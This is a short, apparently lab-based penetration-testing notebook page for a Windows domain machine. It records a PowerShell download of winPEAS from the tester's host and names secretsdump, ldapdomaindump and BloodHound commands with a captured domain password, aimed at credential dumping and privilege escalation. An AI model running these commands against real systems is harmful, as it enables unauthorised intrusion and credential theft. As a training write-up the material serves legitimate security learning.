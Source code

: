 
![[Pasted image 20240924041011.png]]

![[Pasted image 20240924041046.png]]

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```
![[Pasted image 20240924042731.png]]

I think some kind of antivirus is running behind
![[Pasted image 20240924043719.png]]

Now there are 2 ways either to try 
ldap
secrets dump
bloodhound
and see what we get so that we can escalate 


Secrets Dump
```
secretsdump.py holo.live/tushikikatomo:'finance1'@10.10.10.179
```

Ldap
```
ldapdomaindump ldaps://10.10.10.179 -u 'megacorp.local\tushikikatomo' -p 'finance1'
```
![[Pasted image 20240924141609.png]]

Bloodhound
```
bloodhound-python -d megacorp.local -u tushikikatomo -p 'finance1' -ns 10.10.10.179  -c all
```



